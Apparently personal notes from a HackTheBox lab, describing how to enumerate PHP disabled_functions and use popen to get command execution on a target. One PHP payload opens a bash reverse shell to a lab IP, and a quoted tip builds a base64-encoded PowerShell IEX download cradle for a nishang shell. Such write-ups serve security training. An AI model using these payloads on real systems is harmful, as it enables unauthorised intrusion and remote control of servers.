


3. Then I tried to show php information
- There are an interesting information - disabled functions, it shows that which php function will be disabled in this server 
- In this column, I can noticed that system(), shell_exec() and other useful functions are disabled.
```
<?php

phpinfo();

?>
```


4. With ippsec tutorial (also has other similar step in past machine - [Updown](https://www.youtube.com/watch?v=yW_lxWB1Yd0&t=1560s))
- I tried to copy a code to enumerate which php dangerous function I can use now.
- This technique called - dfunk, and here is the [python source code in github repo - dfunc bypasser](https://github.com/teambi0s/dfunc-bypasser)


- It includes a dangerous function list 
- And it will enumerate the dangerous function


5. Since I need to use this technique in target server (PHP), so I need to using php code.

```
<?php

$dangerous_functions = array('pcntl_alarm','pcntl_fork','pcntl_waitpid','pcntl_wait','pcntl_wifexited','pcntl_wifstopped','pcntl_wifsignaled','pcntl_wifcontinued','pcntl_wexitstatus','pcntl_wtermsig','pcntl_wstopsig','pcntl_signal','pcntl_signal_get_handler','pcntl_signal_dispatch','pcntl_get_last_error','pcntl_strerror','pcntl_sigprocmask','pcntl_sigwaitinfo','pcntl_sigtimedwait','pcntl_exec','pcntl_getpriority','pcntl_setpriority','pcntl_async_signals','error_log','system','exec','shell_exec','popen','proc_open','passthru','link','symlink','syslog','ld','mail');

foreach($dangerous_functions as $f){
        if (function_exists($f)) {
                echo $f . " exists<br>\n";
        }
}

?>
```


6. Using this code in target server, and visit this file 


- I have the following function can use.


7. Choose "popen", find how to use it to execute command 
- [Manual - popen](https://www.php.net/manual/en/function.popen.php)


8. Execute this code


9. Check the result, 'ls' command is executed.


10. Change to get reverse shell

```
<?php
error_reporting(E_ALL);

/* Add redirection so we can get stderr. */
$handle = popen('bash -c "bash -i >& /dev/tcp/10.10.17.145/1337 0>&1"', 'r');
echo "'$handle'; " . gettype($handle) . "\n";
$read = fread($handle, 2096);
echo $read;
pclose($handle);

?>
```


### Other tips from ippsec 

> In the last step of 1st method to escalate privilege to system in windows, he using the following script to generate a base64 payload 
> The same payload also be used in previous  GhostScript part
> And he also said that he will use UTF-16le  and base64 to encode the payload that is because to prevent some special chracter (ex. +, quote, double quote) will cause the payload failed.
> And Windows like things in UTF-16 little endian - so he use UTF-16le
> The full script as follow

```
cat "IEX(New-Object.WebClient).downloadString('http://10.10.17.145/power.ps1')" | iconv -t UTF-16LE | base64 -w 0
```

and

```
cat power.ps1 | iconv -t utf-16le | base64 -w 0
```


> power.ps1 is the ps file copy from /usr/share/windows-resources/powersploit/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1


### Important 


1. Identified the file upload function, and bypass the validation and find out how it run the validation
2. Identified which php function can use in target server
3. Kernel exploit is important
4. For xampp, htdocs is an important directory which the path file should be locate in this directory
5. The encoding is important, if the php file or target code file won't execute in server, the encoding might be the root cause


###### tags: `HackTheBox`